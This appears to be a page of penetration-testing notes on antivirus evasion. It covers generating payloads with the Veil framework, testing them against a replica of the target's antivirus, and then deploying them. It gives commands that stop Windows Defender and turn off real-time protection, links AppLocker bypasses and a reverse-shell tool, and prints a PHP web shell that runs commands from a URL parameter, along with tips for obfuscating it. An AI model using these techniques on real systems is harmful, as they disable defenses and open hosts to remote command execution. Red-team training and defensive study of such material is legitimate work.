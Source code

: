 ```bash
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
veil> use evasion # use evasion tool
Veil/Evasion>: list # list payloads
# Then select a payload, generate and copy the output source file to use it
```
{% endcode %}

```
https://www.eicar.org/download-anti-malware-testfile/
```

Once we know the OS version and AV of the target, we would then attempt to replicate this environment in a virtual machine which we can use to test payloads against. Note that we should _always_ disable any kind of cloud-based protection in the AV settings (potentially by outright disconnecting the VM from the internet) so that the AV doesn't upload our carefully crafted payloads to a server somewhere for analysis, destroying all our hard work. Once we have a working payload, we can then deploy it against the target!

[https://github.com/t3l3machus/hoaxshell](https://github.com/t3l3machus/hoaxshell)

## AppLocker Bypasses

[https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)

### Disable AV / Real-time protection

```
sc stop WinDefend
Set-MpPreference -DisableRealtimeMonitoring $true
```

## PHP Obfuscator

There are a variety of measures we could take here, including but not limited to:

* Switching parts of the exploit around so that they're in an unusual order
* Encoding all of the strings so that they're not recognisable
* Splitting up distinctive parts of the code (e.g. `shell_exec($_GET[...])`)

```bash
#Code to enter on the obfuscator
<?php
    $cmd = $_GET["command"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

&#x20;[https://www.gaijin.at/en/tools/php-obfuscator](https://www.gaijin.at/en/tools/php-obfuscator)&#x20;
